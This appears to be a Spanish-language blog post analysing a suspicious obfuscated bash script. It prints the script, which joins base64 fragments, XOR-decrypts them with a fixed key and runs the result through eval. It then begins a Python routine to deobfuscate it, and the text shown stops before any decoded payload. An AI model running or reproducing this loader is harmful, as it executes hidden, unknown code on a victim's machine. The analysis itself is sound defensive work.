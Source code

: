 ```bash
etflAoZZ='8fd2/SL6seGX6WVgsik8Tpa1p80QHTGhl6mUYiDZPU6XsEK8E/wxQKVOlYCjeT2tdFfyvBP6MEAWGSVj0jl5zsbVJ80ivTFApu5UohLIPV6H1SfNIr0xQ0cZoUKw2Qy8RvfHzSK9MUCn7oRgtWucDva0p8+FrcCjFhkhEhJ5uY1HRvK/gB0wcJQJFIISeIy+50a23/L8QYGX6KVwsJ4cvvHmR8/y/EBzN8llYLIpPE6WtaUNIr0xQZfoZUMieTnO5CVlDSK9MUGXGCWA01vsvEb3x80ivTFBl+glchLJ/D13tFaNIg3BkzVLxWDCeQxdQeVW/5WsMUGwq3RiENkMHE'
OWsckYok='ZHsq+VvA'
tmFWUIEl='Hwp6kkwKV5vYxGsEdtIgwB8yYZJjCyyT/dR0b3TYAdMU'
hmgJDZBY='GXqSTQoJgMvpZHcu2AHTFBl6khELCrrnxG98fNIr0xQZepJKCh2T1uxra2j5K9AJCQqaUQssgMvudGtt/y/EGBl+ilcLCeHL7x5kfP8vxAczfJZWCyKTxOlrWlDSK9MUGX6GVDInk5zuQlZQwT+nGBlxmhAKDbKR'

CsWOoh="${zZvOBNrD}${nyoUPXSF}${sBPrdnVP}${soHcuyzH}${tVTWqYNR}${coLxXhyB}${rMTBWoNj}${TavHyPAi}${kUUBaElK}${hfYbWtuB}${RGEyTVVi}${uZhMUPmd}${GUtUgBuF}${kcqPodZo}${AzSkDUFk}${SUTRTpBB}${OegHesMx}${etflAoZZ}${OWsckYok}${tmFWUIEl}${hmgJDZBY}"

LxKbud=$(echo "$CsWOoh" | base64 --decode | perl -e 'my $key = pack("H*", "5039d0216864d1ac8d2c3d1b9b689273"); my $data = do { local $/; <STDIN> }; my $k = length($key); for(my $i=0; $i < length($data); $i++){ print chr( ord(substr($data, $i, 1)) ^ ord(substr($key, $i % $k, 1)) ); }')
GYLkGA=$(dPwVdu "$LxKbud")
eval "$GYLkGA"

```

Cuando vi este script por primera vez, al llegar a la última línea de código pensé, si hay un `eval` algo interesante puede pasar. Ahora es necesario desofuscar el código para entender con más detalle qué es lo que hace, aunque quizás ya pueden imaginar qué hace.

```python
import base64

parts = [
    'GU', 'CVVzEJvdn', 'BHndz+Fr1ODIKnkkLVp/V7HR/K9Irox8ZerRXCg2T1el7CVDSK9MUGXGCWA01vsvEb3x80i',
    'vTFBlxnk0MJ5PH7', 'HRzac8v/gk0epIRC',
    'h2T3+x0cyvSL8ADMwukWysNkMvEb393+QXDFDRxmhQrDZDLxG9/YcEwwxQ0fpZYMlaHnN9rUWH6EdBDMkCRSCEDvsvEb3x8/yDYRhNQkUYhJ5DLxG98fPgFxAQKbpYRISy13OlrWnzBL/4JMUCSUQoNk8fsdHNpzy/+C',
    'TR4v0YhJ5DLxG98fNIr0xQZepJRMg2Tx+x0c2nSL9wFMle',
    'CSQkz5NbEb3dd/y/ECjJUllI6I4fG1HRWct',
    'IgwBwKbuRqISeQy8RvfHzSK9MUGXqRRiEnkMvEZHN3/yvQQwlhmk8yPIPp7HRzadIgwAUZfo',
    'JRC1ai58RvfHzSK9MUGXqRRiEnkMvEb3x80i/ERzFhgUYLCYfb13t7K9gB0xQZepFGISeQy8RvfHzSL8QGCnqSUTIDvsvEb3x80ivTFBl+hlQyJ5PV13R/d8IwwzgZepFGISOH2ddvfyv4Bvk4GXqRRiEjvcHEZG9z+AX2HzR8glELVqLL7HRwfNIB2xQ0frhNCgO+y8RvfHzSK9MUGXGaTQwsh9XvS1J80ivTFApu5UohI73BzkV8fNIr0AkKYYFGMgno39dra2LOL9RDMXqSEQodkMXBHWdt+SDEBwphnVchDZDBxGRvc/gF9h80fIJRC1aiy8dFfHLXEds4GXqRRiEsn8Dpb39z+CDQPAlu4U0hLIPaxG90bsk',
    'wwB8zVOVJCiGDwNQee',
    'y7SD/0UGXqRRgtWh5zEa3ts+C7QGzR+t0YMI+nL10EEaMEvxAoFfpYRCSeQwcRre2z4LacbMm6FaiEnkMvEZHN3/yvQQwpu4VY5PJPb2Gt7K/or0EMyQJFIJFeD',
    '2O5vBXLSK8sUCWGSVjwJl9jXfVJ80ivTFDRxmhQrDZDLxG98fNIr0xQKfuhGC1a5wO9rSnz4',
    'WtwKMWGSESEnm9Xvf3xvwQH',
    'TGhl6i',
    'UYLPIfa6WtrcNIvyAUzV',
    'OBGClaIy+lra2/4LdQEM3+SSQwjtufEb3x80i/EBgp6khELCrrnxG98fNIgwAo1aL9GISeQy8RvfHzSL8AFGXGeTjIzqd/EZHNx+AX+BDR6kUgxV5DLxEV8dtIg1EIyCoJNMieTwe',
    '8fd2/SL6seGX6WVgsik8Tpa1p80QHTGhl6mUYiDZPU6XsEK8E/wxQKVOlYCjeT2tdFfyvBP6MEAWGSVj0jl5zsbVJ80ivTFApu5UohLIPV6H1SfNIr0xQ0cZoUKw2Qy8RvfHzSK9MUCn7oRgtWucDva0p8+FrcCjFhkhEhJ5uY1HRvK/gB0wcJQJFIISeIy+50a23/L8QYGX6KVwsJ4cvvHmR8/y/EBzN8llYLIpPE6WtaUNIr0xQZfoZUMieTnO5CVlDSK9MUGXGCWA01vsvEb3x80ivTFBl+glchLJ/D13tFaNIg3BkzVLxWDCeQxdQeVW/5WsMUGwq3RiENkMHE',
    'ZHsq+VvA',
    'Hwp6kkwKV5vYxGsEdtIgwB8yYZJjCyyT/dR0b3TYAdMU',
    'GXqSTQoJgMvpZHcu2AHTFBl6khELCrrnxG98fNIr0xQZepJKCh2T1uxra2j5K9AJCQqaUQssgMvudGtt/y/EGBl+ilcLCeHL7x5kfP8vxAczfJZWCyKTxOlrWlDSK9MUGX6GVDInk5zuQlZQwT+nGBlxmhAKDbKR'
]

combined_base64 = ''.join(parts)
decoded_bytes = base64.b64decode(combined_base64)

key_hex = "5039d0216864d1ac8d2c3d1b9b689273"
key = bytes.fromhex(key_hex)
```